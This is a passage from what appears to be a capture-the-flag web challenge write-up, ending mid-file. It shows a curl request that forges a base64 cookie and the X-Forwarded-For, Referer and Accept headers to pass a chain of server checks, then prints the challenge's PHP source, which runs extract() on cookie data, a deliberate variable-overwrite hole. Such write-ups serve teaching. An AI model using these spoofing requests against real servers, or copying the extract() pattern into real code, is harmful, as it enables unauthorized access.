 ```
< X-Note: Now you might post me debug=true anytime you need it.
< Content-Length: 0
< Connection: close
< Content-Type: text/html; charset=UTF-8
<
* Closing connection 0
```

The `X-Note` header told me that I can post `debug=true` data, so I did that. I sent the request:
```
curl -XPOST http://192.81.210.234:10005/ --cookie "identify=YWxsb3dfYWNjZXNzPXRydWU=" --header "X-Forwarded-For: 127.0.0.1" --header "Referer: http://localhost/" --header "Content-Length: 10" --header "Accept: flag/*" --data "debug=true" -v
```

And it turns out the action gives me the source code of the website. Here's the source code:
```
<?php
    require_once "flag.php";

    $admin = "";
    if ($_SERVER['REQUEST_METHOD'] === "POST") {
        if (!isset($_COOKIE['identify'])) {
            setcookie('identify', base64_encode('allow_access=false'));
        }
        else {
            $cookie = base64_decode($_COOKIE['identify']);
            parse_str($cookie, $parsed);
            // print_r($parsed);
            @extract($parsed);
            if (!@filter_var($allow_access, FILTER_VALIDATE_BOOLEAN)) {
                header("X-Note: Your access has not been allowed. Please try again later.");
            }
            else {
                if (@$_SERVER['HTTP_X_FORWARDED_FOR'] !== "127.0.0.1") {
                    header("X-Note: The requested resource is only available for Internal IP only.");
                }
                else {
                    if (@$_SERVER['HTTP_REFERER'] !== "http://localhost/") {
                        header("X-Note: Okay, but you're still not coming from http://localhost/.");
                    }
                    else {
                        if (@$_SERVER['CONTENT_LENGTH'] < 10) {
                            $len = $_SERVER['CONTENT_LENGTH'];
                            header("X-Note: Hmm. Your content length ($len) is not match with our rules, which is 10 bytes only.");
                        }
                        else {
                            if (@$_SERVER['HTTP_ACCEPT'] !== "flag/*") {
                                header("X-Note: I see you're not accepting our flag/*. Alright then, aborting.");
                            }
                            else {
                                if (!@isset($_POST['debug'])) {
                                    header("X-Note: Now you might post me debug=true anytime you need it.");
                                }
                                else {
                                    highlight_file( __FILE__ );
                                }
                            }
                            if ($admin === "1337l333333333333333333333333t") {
```